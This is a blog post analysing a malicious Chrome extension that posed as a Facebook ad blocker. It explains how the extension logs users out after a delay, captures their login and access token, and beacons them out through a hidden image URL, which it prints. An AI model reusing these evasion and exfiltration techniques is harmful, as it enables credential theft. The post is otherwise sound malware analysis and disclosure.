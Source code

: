 ```yaml
---
layout: post
title: Inside a malicious Chrome Extension
---
```

Today I saw a sketchy Facebook ad, an empty “Blogging” site with stock photos advertised an “Ad blocker for Facebook”.

I checked out the site, and saw that it only had negative reviews, stating that it didn’t work and slowed down their browser. This made me curious.

## The Extension
![Screenshot from the Chrome Web Store]({{site.url}}/public/chrome_extension_title.jpg)

The extension claims to block out Facebook advertisements, and — ironically — advertises itself on Facebook for it. This strategy is quite simple but ingenious, I mean who likes to see ads while browsing Facebook? Also if you are seeing their advertisement, you obviously have no AdBlocker installed for it.

The Chrome Web Store says it has a total of 10k+ users.

## Behind the Scenes

Analyzing Google Chrome Extensions can be quite easy, atleast when the code — like in this example — isnt obfuscated.

You can just download it, get the unique extension ID from chrome://extensions, and then look at the source code found in your Profile Folder\Extensions\IDofYourExtension.

## Basic Structure

The Extension folder has 4 subfolders, a empty **.vs** folder, suggesting that the developers used Visual Studio, a _metadata folder filled with file hashes, this seems to be a Chrome Extension standard to guarantee that the files haven’t been modified or corrupted, a **img** folder with the extension logo, and finally the interesting part: A folder named **js**.

This folder has a total of 4 non obfuscated JavaScript files, and — *as all good JavaScript programs* — a jQuery dependency.

We will focus on 2 files: **background.js** and **fb3.js**.

In background.js, a listener is added when the Chrome extension is installed, it waits 25 seconds until it executes the function **s_fun_en()**

{% gist 7e8d06bcadafce622d6d4c92872c3e72 background.js %}

The delay of 25 seconds is interesting, the extension tries to not raise suspicion with a variety of timing strageties.

The function **s_fun_en()** is full of these timing strageties. First it creates a timestamp, and saves it to the variable **n**, which will later be compared to the **app.lt** variable, while ensuring that **app.lt** is not the default value of **0**.

**app.lt** is the timestamp of installation, the function **s_fun_en()** results in nothing until 11 hours have passed since the installation.

{% gist 115b6e212affcb2945c1f7b4a5aee6eb background.js %}

This condition is true when **n** (the current timestamp) is bigger than the installation timestamp + 11 hours.

If 11 hours have passed the extension begins working: It removes 2 cookies from Facebook, resulting in deauthentication, and also marks the time when the user was kicked out of his Facebook account in the **app.ltr** variable.

This helps the extension to remain under the radar, so the user does not raise suspicion when he is logged out directly after installing this extension.

This is when we have a look at the **fb3.js** file, it listens for the moment when the user is logging into Facebook again.

The extension steals the E-Mail and password, and sends it to the message listener in **background.js**

{% gist 044fd5c39cb1f0ad46dd770ac1b8bf19 fb3.js %}

The listener saves the E-Mail and password combination into the **app.ld** variable, and proceeds to store the **c_user** cookie in **app.u**, containing the unique ID of the victims Facebook profile. If it can’t find this cookie, it executes the function again, until it gives up after a minute.

The **fb3.js** has another function, which constantly tries to grab the Facebook access token, if it succeeds it is also stored in **app.t**

{ % gist 6acf2a878e1cb69521cb2a7dfdcc6072 background.js %}

So now the extension has successfully grabbed the E-Mail and Password, the unique ID, and the access token.

The obtained information is quite critical, the E-Mail and Password could be used to access the users Facebook account, or to access other accounts in which the same combination is used.

**The extension has gathered a lot of information, the breaking point however is how it transfers this information back to the owner.**

## The Exfil

Typically, malware has a breaking point: The Exfiltration of it's stolen data, or contacting a C&C Server to receive further instructions.

While code can be obfuscated, and (most of the times) gives no clue to whoever made it, the malware has to contact some server (which can be reported, to law enforcement or easier the hosting provider) to submit it’s findings.

After all the work on the local side is done, **background.js** get’s to work again:

It checks if all the needed data is grabbed, and saves the E-Mail password combination into **d**, base64 encodes it, and then embeds a picture.

{% gist e1810d7eec2b783cef019d445bc76613 background.js %}

The picture is generated from www.en-antibanner.ru/img.php , and the extension adds a lot of parameters to it.

``https://en-antibanner.ru/img.php?d=EMailAndPassword&u=UserID&l=&rnd=RandomNumber``

This picture is 1x1 big, so you really wouldn’t see it.

Loading an image, rather than making a POST request to some sketchy server, is less likely to be detected.

## Measures taken

I reported the extension to the Chrome Web Store and Facebook, I will talk more about in a second. *Note from future Altay: Chrome took it down, and also heavily improved their extension security with [Manifest V3](https://developer.chrome.com/docs/extensions/mv3/intro/)*

I had a quite funny idea: What would happen if you would trash their database by adding tons and tons of random data. They would get the infected users credentials for sure, but they would have to search for it between all the junk data.

I wrote a quick JavaScript which creates a fake E-Mail and Password combination, a fake User ID and then sends it to the server.

You can add fake data by visiting this [JSFiddle](https://jsfiddle.net/ozj1mhpu/) and hitting the “Run” Button, once, twice or maybe a thousand times. *Future Altay: The website is down, it was fun nonetheless*

**Thank you for reading!** I am not quite sure how to think about this, Chrome Web Store has virtually no security measures, I wasn’t warned that this file could be a virus and the extension seems to be able to do just about everything, while users can install it with one-click. *Future Altay: Manifest V3 is better I guess, although users will probably accept every single permission requested*

[You can look into the extension yourself, I uploaded it to my GitHub](https://github.com/AltayAkkus/FacebookAdBlocker)